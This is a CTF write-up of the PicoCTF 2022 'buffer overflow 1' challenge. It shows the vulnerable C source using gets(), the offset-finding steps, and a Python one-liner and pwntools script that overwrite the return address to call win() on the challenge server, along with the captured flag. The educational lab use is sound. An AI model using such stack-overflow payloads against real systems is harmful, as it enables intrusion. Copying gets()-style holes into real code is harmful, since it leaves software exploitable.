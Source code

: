 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 1"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


This is the first "proper" binary exploitation (ret2win) challenge in this CTF.

For this challenge, I found John Hammond's [walkthrough video](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB) to be extremely helpful and informative.

## My Solution

Firstly, let's download the provided files.

```bash
wget https://artifacts.picoctf.net/c/187/vuln
wget https://artifacts.picoctf.net/c/187/vuln.c
```

Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:

```bash
$ file vuln
>> vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, 
BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

From this, we can observe that the file:

- is a 32-bit ELF file,
- is not stripped,
- is compiled on a little-endian system, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.

```c
...
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We can see that the provided file has a read buffer size of 32, and has a `win()` function present. The `gets()` function is also used to retrieve user input within the `vuln()` function. Lastly, the program also prints out a return address using a `get_return_address()` function.

Evidently, we will need to control the return address to call the `win()` function. Here, the program helps us to visualize the return address by printing it to standard output.

I then decided to do some experimenting to see how many 'A's will cause the printed return address to be overwritten. Without causing any segmentation fault, we observe that the program returned to this address: `0x804932f`.

I then used GDB to disassemble the program, in order to see which instruction this address points to.

```bash
$ gdb vuln
>> ...
gef> disas main
...
 0x0804932f <+107>:   mov    eax,0x0
...
```

It appears that this specific address is bound to a move instruction in `main()`.

Through further trial and error, I found that around 44 'A's were required to clobber the return address (which was seen from the presence of 41s in the printed address - 41 is the hex representation of A).

I can then run `readelf -s vuln` to look for the address of `win()`. Through this, we note that the address is `0x080491f6`.

Now, we can generate the payload. In this case, we want to order our bytes for `win()` in "reverse", since the executable runs on a little-endian system.

Using Python 2.7 to pipe the payload directly into the program:

```bash
python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc saturn.picoctf.net 60801 
```

Alternatively, using Python 3 and pwntools to send the payload through a solver script:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 60801) # for remote execution

# payload buffer
payload = b'A' * 44 # offset of 44 to EIP
payload += p32(0x080491f6) # address of win()

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```

Both methods allow us to obtain the flag.

```bash
[+] Opening connection to saturn.picoctf.net on port 60801: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Please enter your string:'
[*] Switching to interactive mode

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 60801
```

## Learning Takeaways

Some general tips I picked up here:

- Play around with the program to test the number of dummy characters required to clobber the return address of our intended functions. Or, how many characters do we need to determine the offset of EIP?
  - We also can use GDB/GEF to determine the offsets, but that will be covered in a later writeup. :)
- Get familiar with `readelf`.
- Python 2 can be used to generate simple payloads, but for more complex payloads and ROP chains, it may be better to use pwntools and Python 3 instead.
  - Interestingly, Python 2 lets us directly pipe in the payload into the program using a print statement, but we can't seem to do this with Python 3 (not even after converting the payload into a bytestring). It could be to do with the behaviour of the print function in Python 3, where it appends a newline character after the payload string. Consequently, this newline character modifies the payload and makes it incorrect.
- Note the differences between little-endian and big-endian.

## References

- [John Hammond (YouTube): 32-bit x86 LINUX BUFFER OVERFLOW (PicoCTF 2022 #31 'buffer-overflow1')](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB)
